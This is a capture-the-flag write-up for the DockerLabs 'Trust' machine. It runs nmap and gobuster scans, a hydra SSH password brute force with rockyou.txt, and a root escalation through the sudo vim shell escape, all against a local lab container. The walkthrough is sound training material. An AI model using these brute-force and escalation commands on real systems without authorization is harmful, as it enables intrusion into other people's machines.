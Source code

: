 # Trust

{% embed url="https://dockerlabs.es/#/" %}

[🔗 DockerLabs.es](https://dockerlabs.es/#/)

&#x20;[🔗](https://dockerlabs.es/#/) [How to setup a Docker Image ](https://dockerlabs.es/assets/instrucciones\_de\_uso.pdf)

<details>

<summary>CTF BootToRoot</summary>

A **CTF** (Capture The Flag) **Boot To Root** (B2R) is a type of cybersecurity challenge where participants are tasked with gaining unauthorized access to a computer system (the "Boot" part) and then obtaining and eventually capturing a specific flag or set of flags (the "Root" part). The flags could be strings of text, files, or other data that prove the participant has successfully compromised the system.

In these challenges, participants typically start with minimal information about the target system and have to use various techniques, including vulnerability analysis, exploitation, privilege escalation, and more, to gain access and ultimately root access to the system. The challenges often simulate real-world scenarios and are designed to test participants' skills in penetration testing, exploit development, reverse engineering, and other cybersecurity domains. They can be hosted online or in-person as part of cybersecurity competitions, training events, or educational exercises.

</details>

## Task 1 - Deploy the machine

Install docker.io (if you do not already have it installed) -> `sudo apt install docker.io`

Download machine from DockerLabs website and setup lab:

* `unzip trust.zip`
* `sudo bash auto_deploy.sh trust.tar`

<div align="left">

<figure><img src=".gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

</div>

and we obtained IP machine -> 🎯 Target IP: `172.17.0.2`

We can put the IP in the file to associate it with an easier to remember name:

<pre class="language-bash"><code class="lang-bash">su
<strong>echo "172.17.0.2 trust" >> /etc/hosts
</strong></code></pre>

Create a directory for machine on a dedicated folder and subdir containing: nmap,content,exploits,scripts

<pre class="language-bash"><code class="lang-bash"><strong>mkdir -p DockerLabs/trust
</strong>cd DockerLabs/trust
<strong>mkdir {nmap,content,exploits,scripts}
</strong><strong>
</strong># At the end of the Lab
CTRL + C #To stop running machine

<strong>sed -i '$ d' /etc/hosts # To clean up the last line from the /etc/hosts file
</strong><strong>
</strong># To repair potential problem during activities
sudo systemctl restart docker
sudo docker stop $(docker ps -q)
sudo docker container prune -force
</code></pre>

## Task 2 - Reconnaissance and Exploitation

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 trust
PING trust (172.17.0.2) 56(84) bytes of data.
64 bytes from trust (172.17.0.2): icmp_seq=1 ttl=64 time=0.052 ms
64 bytes from trust (172.17.0.2): icmp_seq=2 ttl=64 time=0.077 ms
64 bytes from trust (172.17.0.2): icmp_seq=3 ttl=64 time=0.048 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 Ports in listening and relative services

Of course, we start looking for information about our target by scanning the open ports with the nmap tool

```bash
nmap -Pn -n -p0- trust
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

There're two open port (22, 80), analyze them searching more info about services version and potential vulns:

```bash
nmap -A -sVC -p 22,80 trust -oN nmap/port_scan
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 4.15 - 5.8 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.0 - 5.5 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>Pn</td><td>no ping</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

As always we begin our exploration from port 80, where we know there is a web server, so we execute the whatweb command to extract more information and then view the content using the browser

```bash
whatweb http://trust
```

<figure><img src=".gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>

Let's display the default Apache page, try analysing the source page with CTRL+U

<figure><img src=".gitbook/assets/image (240).png" alt=""><figcaption></figcaption></figure>

But we don't discover nothing of interisting.

### 2.2 Brute force hidden web directory

Now, we try to find potential hidden directory using gobuster:

```bash
gobuster dir -u http://trust -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

<figure><img src=".gitbook/assets/image (242).png" alt=""><figcaption></figcaption></figure>

We only find a useless 403 status code, so we try inserting web extensions (html, xml and php) with the -x flag:

```
gobuster dir -u http://trust -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,xml,php)
```

<figure><img src=".gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

and finally we obtain two status code 200, the index.html is the homepage (that we just know), therefore we go to the secret.php

<figure><img src=".gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>

We find as info a potential username, remembering that port 22 (SSH) is open, not knowing the password we could try a brute force attack with hydra

### 2.3 Brute force ssh credentials

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt trust ssh
```

<figure><img src=".gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

Fantastic, we discovered the password, we use it to log in via SSH with the following command: `ssh mario@trust`

<figure><img src=".gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

## Task 3 - Privilege Escalation

Now that we are inside, since we are not root user we need to elevate our privileges, so let's check the current permissions using `sudo -l`

<figure><img src=".gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

We see that mario user has root permissions for /usr/bin/vim, then we can use [gtfobins](https://gtfobins.github.io/gtfobins/vim/) to find it.

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

<figure><img src=".gitbook/assets/image (248).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/vim/">https://gtfobins.github.io/gtfobins/vim/</a></p></figcaption></figure>

using vim sudo command, we obtain a root permission `sudo vim -c ':!/bin/sh'`

<div align="left">

<figure><img src=".gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

</div>
